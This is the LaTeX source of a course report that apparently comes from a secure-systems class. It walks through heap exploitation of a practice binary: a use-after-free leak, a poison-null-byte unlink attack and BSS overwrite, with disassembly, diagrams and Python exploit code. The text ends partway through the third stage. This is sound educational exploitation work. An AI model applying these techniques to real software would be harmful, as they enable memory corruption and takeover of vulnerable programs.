\documentclass[12pt,a4paper]{article}

% ── Packages ──
\usepackage[margin=1in]{geometry}
\usepackage{graphicx}
\usepackage{amsmath,amssymb}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref}
\usepackage{booktabs}
\usepackage{tikz}
\usetikzlibrary{shapes.multipart, positioning, arrows.meta, calc, fit}
\usepackage{fancyhdr}
\usepackage{enumitem}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{tcolorbox}
\tcbuselibrary{listings,skins,breakable}

% ── Colours ──
\definecolor{codebg}{HTML}{F5F5F5}
\definecolor{codeframe}{HTML}{CCCCCC}
\definecolor{keyword}{HTML}{0000FF}
\definecolor{comment}{HTML}{008000}
\definecolor{string}{HTML}{A31515}
\definecolor{heap_alloc}{HTML}{D4EDDA}
\definecolor{heap_free}{HTML}{F8D7DA}
\definecolor{heap_corrupt}{HTML}{FFF3CD}
\definecolor{heap_target}{HTML}{CCE5FF}

% ── Code listing style ──
\lstdefinestyle{asm}{
  language=[x86masm]Assembler,
  basicstyle=\ttfamily\small,
  backgroundcolor=\color{codebg},
  frame=single,
  rulecolor=\color{codeframe},
  keywordstyle=\color{keyword}\bfseries,
  commentstyle=\color{comment}\itshape,
  stringstyle=\color{string},
  numbers=left,
  numberstyle=\tiny\color{gray},
  breaklines=true,
  showstringspaces=false,
  tabsize=4,
  xleftmargin=1em,
}

\lstdefinestyle{python}{
  language=Python,
  basicstyle=\ttfamily\small,
  backgroundcolor=\color{codebg},
  frame=single,
  rulecolor=\color{codeframe},
  keywordstyle=\color{keyword}\bfseries,
  commentstyle=\color{comment}\itshape,
  stringstyle=\color{string},
  numbers=left,
  numberstyle=\tiny\color{gray},
  breaklines=true,
  showstringspaces=false,
  tabsize=4,
  xleftmargin=1em,
}

% ── Callout box ──
\newtcolorbox{insight}[1][]{
  colback=blue!5!white,
  colframe=blue!75!black,
  fonttitle=\bfseries,
  title={Key Insight},
  #1
}

\newtcolorbox{vulnbox}[1][]{
  colback=red!5!white,
  colframe=red!75!black,
  fonttitle=\bfseries,
  title={Vulnerability},
  #1
}

% ── Header / Footer ──
\pagestyle{fancy}
\fancyhf{}
\lhead{CS6570 — Secure Systems Engineering}
\rhead{Assignment 4: Heap Exploitation}
\cfoot{\thepage}

\hypersetup{
  colorlinks=true,
  linkcolor=blue!70!black,
  urlcolor=blue!70!black,
  citecolor=blue!70!black,
}

% ══════════════════════════════════════════════════════════════
\begin{document}

% ── Title Page ──
\begin{titlepage}
\centering
\vspace*{2cm}
{\Huge\bfseries Assignment 4:\\[0.3em] Heap Exploitation Report\par}
\vspace{1.5cm}
{\Large CS6570 — Secure Systems Engineering\par}
\vspace{0.5cm}
{\Large IIT Madras\par}
\vspace{2cm}
{\large\textbf{Binary:} \texttt{vaultsrv} (ELF 64-bit, glibc 2.23)\par}
\vspace{0.5cm}
{\large\textbf{Stages Solved:} 3 / 3\par}
\vspace{2cm}
{\large \today\par}
\vfill
\end{titlepage}

% ── TOC ──
\tableofcontents
\newpage

% ══════════════════════════════════════════════════════════════
\section{Introduction and Binary Overview}
% ══════════════════════════════════════════════════════════════

The target is \texttt{vaultsrv}, a statically-linked ELF 64-bit binary running
under \textbf{glibc 2.23} (no tcache). It provides a menu-driven vault
management system with the following operations:

\begin{center}
\begin{tabular}{cl|cl}
\toprule
\textbf{Option} & \textbf{Function} & \textbf{Option} & \textbf{Function} \\
\midrule
1 & \texttt{vault\_store}   & 6  & \texttt{vault\_audit}  \\
2 & \texttt{vault\_purge}   & 7  & \texttt{vault\_auth}   \\
3 & \texttt{vault\_inspect} & 8  & \texttt{vault\_export} \\
4 & \texttt{vault\_reseal}  & 9  & \texttt{vault\_admin}  \\
5 & \texttt{vault\_relabel} & 10 & \texttt{vault\_claim}  \\
\bottomrule
\end{tabular}
\end{center}

\subsection{Global Data Structures}

The binary uses a BSS-resident array of 8 vault structures starting at
address \texttt{0x6031e0}. Each entry is \texttt{0x20} (32) bytes:

\begin{center}
\begin{tabular}{lll}
\toprule
\textbf{Offset} & \textbf{Field} & \textbf{Size} \\
\midrule
\texttt{+0x00} & \texttt{data} (heap pointer) & 8 bytes \\
\texttt{+0x08} & \texttt{alloc\_size}          & 4 bytes \\
\texttt{+0x0C} & \texttt{state} (flags)        & 4 bytes \\
\texttt{+0x10} & \texttt{name}                 & 16 bytes \\
\bottomrule
\end{tabular}
\end{center}

Key globals:
\begin{itemize}[nosep]
  \item \texttt{vaults[]} — \texttt{0x6031e0} (8 entries $\times$ \texttt{0x20})
  \item \texttt{export\_count} — \texttt{0x6032e0}
  \item \texttt{session\_pin} — \texttt{0x6032e8} (random, via \texttt{getrandom})
  \item \texttt{audit\_trail} — \texttt{0x6032f0} (heap pointer)
  \item \texttt{admin\_token} — \texttt{0x6032f8} (random, via \texttt{getrandom})
\end{itemize}

\subsection{Security Properties (glibc 2.23)}

\begin{itemize}[nosep]
  \item \textbf{No tcache} — freed chunks go directly to fastbins / unsorted bin.
  \item \textbf{Unlink macro} — checks \texttt{fd->bk == P \&\& bk->fd == P} but
        these can be bypassed if we control a known pointer (e.g., \texttt{vaults[i].data}).
  \item \textbf{Consolidation} — backward consolidation checks \texttt{PREV\_INUSE} bit
        and uses \texttt{prev\_size} to locate the previous chunk.
\end{itemize}

% ══════════════════════════════════════════════════════════════
\newpage
\section{Stage 1: Bin Anatomy — Use-After-Free Heap Leak}
% ══════════════════════════════════════════════════════════════

\subsection{Objective}

Leak the heap address of \texttt{vaults[0].data} and submit it via
\texttt{vault\_claim(stage=1, value=addr)}.

\subsection{Binary Analysis}

\subsubsection{vault\_purge (0x400dd1)}

\begin{lstlisting}[style=asm, caption={vault\_purge — frees without clearing pointer}]
; Load vaults[idx].data
mov rax, QWORD PTR [rax]       ; rax = vaults[idx].data
mov rdi, rax
call free@plt                  ; free(vaults[idx].data)
; BUG: No clearing of pointer or state!
; Missing: vaults[idx].data = NULL
; Missing: vaults[idx].state = 0
\end{lstlisting}

\begin{vulnbox}
\texttt{vault\_purge} calls \texttt{free()} on the vault's data pointer but
\textbf{never clears} the pointer (\texttt{vaults[idx].data}) \textbf{nor resets}
the state flag (\texttt{vaults[idx].state}). This creates a classic
\textbf{Use-After-Free} (UAF) condition.
\end{vulnbox}

\subsubsection{vault\_inspect (0x400e57)}

\begin{lstlisting}[style=asm, caption={vault\_inspect — reads through dangling pointer}]
; Check state & 1
and eax, 0x1
test eax, eax
jne  0x400eb7           ; only skips if state bit 0 is 0
; ...
mov rax, QWORD PTR [rax] ; rax = vaults[idx].data (dangling!)
mov rdi, rax
call puts@plt            ; puts(dangling_pointer) -> leaks heap data
\end{lstlisting}

Since \texttt{state} is never cleared by \texttt{purge}, \texttt{inspect} treats
the freed vault as still allocated and calls \texttt{puts()} on the freed
chunk's memory, leaking its contents.

\subsubsection{vault\_claim — Stage 1 check (0x401396)}

\begin{lstlisting}[style=asm, caption={Stage 1 verification logic}]
cmp QWORD PTR [rbp-0x10], 0x0    ; value != 0?
je  fail
mov rax, [rip+0x201e38]          ; rax = vaults[0].data
cmp rax, QWORD PTR [rbp-0x10]    ; value == vaults[0].data?
jne fail
; -> opens flag1.txt and prints it
\end{lstlisting}

The verifier checks whether the submitted value equals \texttt{vaults[0].data},
i.e., the heap address of vault 0's allocated chunk.

\subsection{Heap Layout Diagrams}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  chunk/.style={draw, minimum width=6cm, minimum height=0.7cm, font=\ttfamily\small},
  label/.style={font=\small\itshape, text=gray},
  >=Stealth
]
% Step 1: After allocation
\node[font=\bfseries] at (0, 4.5) {Step 1: After allocating Vault 0 and Vault 1};

\node[chunk, fill=heap_alloc] (c0h) at (0, 3.5) {Chunk 0 Header (prev\_size | 0x21)};
\node[chunk, fill=heap_alloc, below=0pt of c0h] (c0d) {Vault 0 Data: "AAA...A" (0x18 bytes)};
\node[chunk, fill=heap_alloc, below=0pt of c0d] (c1h) {Chunk 1 Header (prev\_size | 0x21)};
\node[chunk, fill=heap_alloc, below=0pt of c1h] (c1d) {Vault 1 Data: "BBB...B" (0x18 bytes)};

\node[label, right=0.3cm of c0d] {vaults[0].data $\rightarrow$};
\node[label, right=0.3cm of c1d] {vaults[1].data $\rightarrow$};

% Step 2: After free
\node[font=\bfseries] at (0, -0.5) {Step 2: After purge(0), purge(1) — Fastbin LIFO};

\node[chunk, fill=heap_free] (f0h) at (0, -1.5) {Chunk 0 Header (prev\_size | 0x21)};
\node[chunk, fill=heap_free, below=0pt of f0h] (f0d) {fd = NULL | ...};
\node[chunk, fill=heap_free, below=0pt of f0d] (f1h) {Chunk 1 Header (prev\_size | 0x21)};
\node[chunk, fill=heap_free, below=0pt of f1h] (f1d) {\textbf{fd = \&Chunk0\_header} | ...};

\draw[->, thick, red] (f1d.west) to[out=180,in=180] node[left, font=\small\color{red}] {leaked via inspect(1)} (f0h.west);

\node[label, right=0.3cm of f1d] {UAF: inspect reads this};
\end{tikzpicture}
\caption{Fastbin state after freeing both chunks. Vault 1's \texttt{fd} pointer reveals Vault 0's chunk header address.}
\end{figure}

\subsection{Exploit Chain}

\begin{enumerate}
  \item \textbf{Allocate} two fastbin-sized chunks (\texttt{size=0x18}, chunk size \texttt{0x20}):
        \texttt{store(0, 0x18, ...)} and \texttt{store(1, 0x18, ...)}.
  \item \textbf{Free both} in order: \texttt{purge(0)}, then \texttt{purge(1)}.
        The fastbin list becomes: \texttt{Vault1 $\to$ Vault0 $\to$ NULL}.
  \item \textbf{Leak via UAF:} \texttt{inspect(1)} calls \texttt{puts()} on
        Vault 1's freed data. The first 8 bytes now contain the \texttt{fd}
        pointer to Vault 0's \textbf{chunk header}.
  \item \textbf{Compute target:} \texttt{vault0\_data = leaked\_fd + 0x10}
        (chunk header is 16 bytes).
  \item \textbf{Submit:} \texttt{claim(stage=1, value=vault0\_data)}.
\end{enumerate}

\begin{lstlisting}[style=python, caption={Stage 1 exploit (key logic)}]
store_vault(0, 0x18, b'Vault0', b'A'*0x18)
store_vault(1, 0x18, b'Vault1', b'B'*0x18)
purge_vault(0)
purge_vault(1)

leaked = inspect_vault(1)      # UAF: reads fd pointer
leaked_addr = u64(leaked.replace(b'\n',b'').ljust(8, b'\x00'))
vault0_data = leaked_addr + 0x10   # skip chunk header

claim(stage=1, value=vault0_data)
\end{lstlisting}

\subsection{Challenges and Debugging}

\begin{itemize}
  \item \textbf{Null-byte truncation:} \texttt{puts()} stops at \texttt{0x00}
        bytes. Since heap addresses on x86-64 typically start with
        \texttt{0x0000555...}, the two leading null bytes are never printed.
        We pad the received bytes with \texttt{0x00} on the right using
        \texttt{ljust(8, b'\textbackslash x00')} before unpacking.
  \item \textbf{Newline in output:} \texttt{puts()} appends \texttt{0x0a}.
        We strip the trailing newline before parsing.
  \item \textbf{glibc version mismatch:} Running locally required
        \texttt{./ld-2.23.so ./vaultsrv} with \texttt{LD\_LIBRARY\_PATH=.}
        and a correct \texttt{libc.so.6} symlink to avoid
        \texttt{GLIBC\_2.35} version errors.
\end{itemize}

% ══════════════════════════════════════════════════════════════
\newpage
\section{Stage 2: Prev Size Lies — Poison Null Byte with Unlink}
% ══════════════════════════════════════════════════════════════

\subsection{Objective}

Write the magic value \texttt{0xC0FFEE1337} into Vault 1's heap region and
verify it via \texttt{vault\_claim(stage=2, value=0xC0FFEE1337)}.

\subsection{Binary Analysis}

\subsubsection{vault\_reseal (0x400ed3)}

\begin{lstlisting}[style=asm, caption={vault\_reseal — off-by-one null byte overflow}]
; Read size bytes of new data into vaults[idx].data
mov rdi, rax          ; ptr = vaults[idx].data
call read_data        ; read exactly alloc_size bytes

; Then null-terminate:
mov rax, [vaults[idx].data]
mov edx, [vaults[idx].alloc_size]
add rax, rdx          ; ptr + size
mov BYTE PTR [rax], 0x0   ; *(ptr + size) = '\0'  <-- BUG!
\end{lstlisting}

\begin{vulnbox}
\texttt{vault\_reseal} reads exactly \texttt{alloc\_size} bytes into the
heap chunk, then writes a null byte at \texttt{ptr + size}. When
\texttt{alloc\_size = 0x108} (chunk size \texttt{0x110}), the aligned
chunk perfectly fits the data, and the null byte overflows into the
\textbf{least significant byte of the next chunk's \texttt{size} field},
changing \texttt{0x111} to \texttt{0x100}. This clears the
\texttt{PREV\_INUSE} bit and shrinks the apparent size.
\end{vulnbox}

\subsubsection{Unlink Macro (glibc 2.23)}

The \texttt{unlink} macro in glibc 2.23 performs:
\begin{lstlisting}[style=asm, caption={Simplified unlink check}]
if (chunksize(P) != prev_size(next_chunk(P)))
    abort();               // size vs prev_size check
FD = P->fd;
BK = P->bk;
if (FD->bk != P || BK->fd != P)
    abort();               // safe unlink check
FD->bk = BK;              // write BK to *(FD + 0x18)
BK->fd = FD;              // write FD to *(BK + 0x10)
\end{lstlisting}

We bypass these checks by placing the fake chunk at the address stored in
\texttt{vaults[0].data}, with:
\begin{align*}
P &= \texttt{vaults[0].data} = \texttt{0x6031e0} \\
\texttt{fd} &= \texttt{0x6031e0} - \texttt{0x18} = \texttt{0x6031c8} \\
\texttt{bk} &= \texttt{0x6031e0} - \texttt{0x10} = \texttt{0x6031d0}
\end{align*}

Verification: \texttt{fd->bk = *(0x6031c8 + 0x18) = *(0x6031e0) = P} \checkmark{}
and \texttt{bk->fd = *(0x6031d0 + 0x10) = *(0x6031e0) = P} \checkmark{}.

After unlink executes:
\[
  \texttt{vaults[0].data} = \texttt{fd} = \texttt{0x6031c8}
\]

\subsection{Heap Layout Diagrams}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  chunk/.style={draw, minimum width=8cm, minimum height=0.6cm, font=\ttfamily\scriptsize},
  >=Stealth
]
% Step 1: Initial layout
\node[font=\bfseries\small] at (0, 5.5) {Step 1: After store(0, 0x108), store(1, 0x108), store(2, 0x18)};

\node[chunk, fill=heap_alloc] (v0h) at (0, 4.7) {Chunk 0 hdr: prev\_size=0 | size=0x111};
\node[chunk, fill=heap_alloc, below=0pt of v0h] (v0d) {Vault 0 Data: [fake\_ps=0 | fake\_sz=0x101 | fd | bk | pad | prev\_size=0x100]};
\node[chunk, fill=heap_alloc, below=0pt of v0d] (v1h) {Chunk 1 hdr: prev\_size | size=0x111};
\node[chunk, fill=heap_alloc, below=0pt of v1h] (v1d) {Vault 1 Data: [pad(0xF0) | fake\_ps=0x100 | fake\_sz=0x21 | pad]};
\node[chunk, fill=heap_alloc, below=0pt of v1d] (v2h) {Chunk 2 hdr: prev\_size | size=0x21};
\node[chunk, fill=heap_alloc, below=0pt of v2h] (v2d) {Vault 2 Data: barrier chunk};

% Step 2: After reseal off-by-one
\node[font=\bfseries\small] at (0, 0.3) {Step 2: After reseal(0) — off-by-one poisons Chunk 1's size};

\node[chunk, fill=heap_alloc] (r0h) at (0, -0.5) {Chunk 0 hdr: prev\_size=0 | size=0x111};
\node[chunk, fill=heap_alloc, below=0pt of r0h] (r0d) {Vault 0 Data: [...pad... | prev\_size=0x100]};
\node[chunk, fill=heap_corrupt, below=0pt of r0d] (r1h) {Chunk 1 hdr: prev\_size=0x100 | size=0x\textbf{100} \textnormal{(was 0x111, PREV\_INUSE cleared!)}};
\node[chunk, fill=heap_alloc, below=0pt of r1h] (r1d) {Vault 1 Data: [pad | fake chunk header at +0xF0]};

\draw[->, thick, red] ($(r0d.east)+(0.3,0)$) -- node[right, font=\scriptsize\color{red}] {\texttt{0x00} overflow} ($(r1h.east)+(0.3,0)$);
\end{tikzpicture}
\caption{The off-by-one null byte from \texttt{reseal(0)} corrupts Chunk 1's size field.}
\end{figure}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  chunk/.style={draw, minimum width=8cm, minimum height=0.6cm, font=\ttfamily\scriptsize},
  >=Stealth
]
% Step 3: After purge(1) — consolidation
\node[font=\bfseries\small] at (0, 3.5) {Step 3: After purge(1) — backward consolidation + Unlink};

\node[chunk, fill=heap_free] (m0) at (0, 2.7) {Merged free chunk (Vault 0 fake P + Vault 1)};
\node[chunk, fill=heap_free, below=0pt of m0] (m1) {size $\approx$ 0x210, in unsorted bin};
\node[chunk, fill=heap_alloc, below=0pt of m1] (m2) {Vault 2: barrier (still allocated)};

\node[font=\scriptsize, text=red, right=0.3cm of m0] {vaults[0].data = 0x6031c8 (BSS!)};

% Step 4: After store(4, 0x150) — overlapping allocation
\node[font=\bfseries\small] at (0, -0.3) {Step 4: After store(4, 0x150) — overlapping Vault 1};

\node[chunk, fill=heap_target] (o0) at (0, -1.1) {Vault 4 Data: [0x100 bytes padding | 0xC0FFEE1337 | pad]};
\node[chunk, fill=heap_corrupt, below=0pt of o0] (o1) {$\leftarrow$ overlaps Vault 1's old data region};
\node[chunk, fill=heap_alloc, below=0pt of o1] (o2) {Vault 2: barrier};

\draw[->, thick, blue] ($(o0.south)-(2,0)$) -- node[left, font=\scriptsize\color{blue}] {magic value at +0x100} ($(o1.north)-(2,0)$);
\end{tikzpicture}
\caption{After consolidation, the merged block is reused. Vault 4 overlaps Vault 1's data.}
\end{figure}

\subsection{Exploit Chain}

\begin{enumerate}
  \item \textbf{Allocate Vault 0} (\texttt{size=0x108}): Contains a fake chunk
        at offset 0 with crafted \texttt{prev\_size=0}, \texttt{size=0x101},
        \texttt{fd=0x6031c8}, \texttt{bk=0x6031d0}. The last 8 bytes set the
        fake \texttt{prev\_size=0x100} that will appear in Vault 1's metadata.
  \item \textbf{Allocate Vault 1} (\texttt{size=0x108}): Contains a fake
        ``nextchunk'' header at offset \texttt{0xF0}
        (\texttt{prev\_size=0x100, size=0x21}) to pass the
        \texttt{chunksize(P) == prev\_size(next\_chunk)} integrity check.
  \item \textbf{Allocate Vault 2} (\texttt{size=0x18}): Barrier to prevent
        top-chunk consolidation.
  \item \textbf{Reseal Vault 0}: Re-writes the same payload. The off-by-one
        null byte overwrites Vault 1's chunk size from \texttt{0x111} to
        \texttt{0x100}, clearing the \texttt{PREV\_INUSE} bit.
  \item \textbf{Purge Vault 1}: \texttt{free()} sees \texttt{PREV\_INUSE=0},
        reads \texttt{prev\_size=0x100}, walks backward to our fake chunk $P$
        inside Vault 0. \texttt{unlink(P)} passes all checks. The merged
        chunk is \texttt{$\sim$0x210} bytes.
  \item \textbf{Allocate Vault 4} (\texttt{size=0x150}): Carved from the
        merged free chunk. Vault 4's data starts where our fake chunk was.
        At offset \texttt{+0x100} (overlapping Vault 1's old data), we
        write \texttt{0xC0FFEE1337}.
  \item \textbf{Claim:} \texttt{claim(stage=2, value=0xC0FFEE1337)}.
\end{enumerate}

\begin{lstlisting}[style=python, caption={Stage 2 exploit (key logic)}]
fake_fd = 0x6031e0 - 0x18  # 0x6031c8
fake_bk = 0x6031e0 - 0x10  # 0x6031d0

payload0 = p64(0) + p64(0x101) + p64(fake_fd) + p64(fake_bk)
payload0 = payload0.ljust(0x100, b'A')
payload0 += p64(0x100)     # fake prev_size for vault 1

store_vault(0, 0x108, b'Vault0', payload0)

payload1 = b'B'*0xF0 + p64(0x100) + p64(0x21) + b'C'*8
store_vault(1, 0x108, b'Vault1', payload1)
store_vault(2, 0x18,  b'Vault2', b'C'*0x18)

reseal_vault(0, payload0)  # off-by-one: 0x111 -> 0x100
purge_vault(1)             # backward consolidation + unlink

payload4 = b'D'*0x100 + p64(0xC0FFEE1337)
payload4 = payload4.ljust(0x150, b'E')
store_vault(4, 0x150, b'Vault4', payload4)

claim(stage=2, value=0xC0FFEE1337)
\end{lstlisting}

\subsection{Challenges and Debugging}

\begin{itemize}
  \item \textbf{Corrupted size vs.\ prev\_size abort:} Initial attempts
        crashed with \texttt{corrupted size vs.\ prev\_size} because the
        fake nextchunk header inside Vault 1's data was not correctly placed.
        The fix was ensuring the fake chunk at offset \texttt{0xF0} within
        Vault 1's data had \texttt{prev\_size=0x100} and \texttt{size=0x21}
        (with \texttt{PREV\_INUSE} set).
  \item \textbf{Double-free corruption:} An early version placed the fake
        \texttt{fd/bk} at wrong offsets (treating $P$ as the chunk header
        instead of the user-data pointer). The Unlink macro operates on $P$
        which the allocator treats as the start of the chunk (including
        \texttt{prev\_size}), so the \texttt{fd} and \texttt{bk} are at
        $P$\texttt{+0x10} and $P$\texttt{+0x18} respectively. After careful
        offset analysis, we placed \texttt{fd} and \texttt{bk} at the correct
        user-data offsets.
  \item \textbf{Padding length mismatch:} The initial \texttt{ljust(0xF8)}
        produced an \texttt{0x100}-byte payload (missing 8 bytes).
        Fixed to \texttt{ljust(0x100)} so the total with the trailing
        \texttt{p64(0x100)} equals exactly \texttt{0x108}.
\end{itemize}

% ══════════════════════════════════════════════════════════════
\newpage
\section{Stage 3: Unlink Undone — BSS Corruption and session\_pin Leak}
% ══════════════════════════════════════════════════════════════

\subsection{Objective}

Leak the \texttt{session\_pin} (a random 8-byte value at \texttt{0x6032e8},
generated by \texttt{SYS\_getrandom} at startup) and submit it via
\texttt{vault\_claim(stage=3, value=session\_pin)}.

\subsection{Binary Analysis}

\subsubsection{session\_pin Initialization (main, 0x401716)}

\begin{lstlisting}[style=asm, caption={session\_pin is filled with 8 random bytes}]
mov esi, 0x6032e8      ; buf = &session_pin
mov edi, 0x13e         ; __NR_getrandom = 318
mov edx, 0x8           ; 8 bytes
syscall                ; getrandom(&session_pin, 8, 0)
\end{lstlisting}

\subsubsection{vault\_claim — Stage 3 check (0x401583)}

\begin{lstlisting}[style=asm, caption={Stage 3: compares submitted value with session\_pin}]
cmp QWORD PTR [rbp-0x10], 0x0    ; value != 0?
je  fail
mov rax, [rip+0x201d53]          ; rax = session_pin
cmp QWORD PTR [rbp-0x10], rax    ; value == session_pin?
jne fail
; -> opens flag3.txt and prints it
\end{lstlisting}

\subsubsection{vault\_audit (0x4010d3) — The Leak Primitive}

\begin{lstlisting}[style=asm, caption={vault\_audit dereferences data pointer and prints as hex}]
mov rax, [rax]       ; ptr = vaults[i].data
mov rax, [rax]       ; val = *ptr  (dereference!)
mov rdx, rax
mov edi, 0x40192d    ; "vault[%d]: 0x%lx\n"
call printf          ; prints full 8-byte value as hex
\end{lstlisting}

\begin{insight}
\texttt{vault\_audit} uses \texttt{printf("\%lx")} to print
\texttt{*vaults[i].data}, handling all 8 bytes correctly regardless of embedded
null bytes. In contrast, \texttt{vault\_inspect} uses \texttt{puts()}, which
would truncate at the first \texttt{0x00}. This makes \texttt{audit} the
ideal leak primitive for arbitrary memory reads.
\end{insight}

\subsection{Exploit Strategy}

The key insight is that \textbf{Stage 2's Unlink side-effect} gives us a
write-what-where primitive: after Unlink, \texttt{vaults[0].data = 0x6031c8},
pointing 24 bytes before the \texttt{vaults[]} array in BSS. Calling
\texttt{reseal(0)} then writes controlled data directly over the entire
\texttt{vaults[]} array, allowing us to redirect any vault's data pointer
to an arbitrary address.

\subsection{BSS Memory Map During Overwrite}

\begin{figure}[h]
\centering
